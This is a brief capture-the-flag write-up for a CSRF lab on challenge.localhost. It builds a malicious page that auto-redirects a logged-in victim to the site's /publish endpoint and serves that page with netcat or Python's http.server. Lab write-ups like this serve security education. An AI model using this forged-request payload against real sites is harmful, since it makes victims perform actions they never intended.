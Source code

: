 # CSRF 1

#### Need to redirect the victim from the hacker site back to the main site to publish the flag. First need to create the simple fake site, there are multiple ways to do this but I chose this one.

#### From the terminal:
```
echo -e "HTTP/1.1 200 OK\r\nContent-type: text/html\r\n\r\n<html><head><meta http-equiv=\"refresh\" content=\"0; url=http://challenge.localhost/publish\"></head></html>" > index.html
```
#### Or in the text editor:
```
HTTP/1.1 200 OK
Content-type: text/html

<html>
  <head>
    <meta http-equiv="refresh" content="0; url=http://challenge.localhost/publish\">
  </head>
</html>
```
--------------------------------------

#### Now need to start up a server to listen, can use netcat:

```cat index.html | nc -l -p 1337 -q 1```

#### Or Python

```python3 -m http.server 1337```

----------------------------------

#### Then run the victim command and login for the flag.

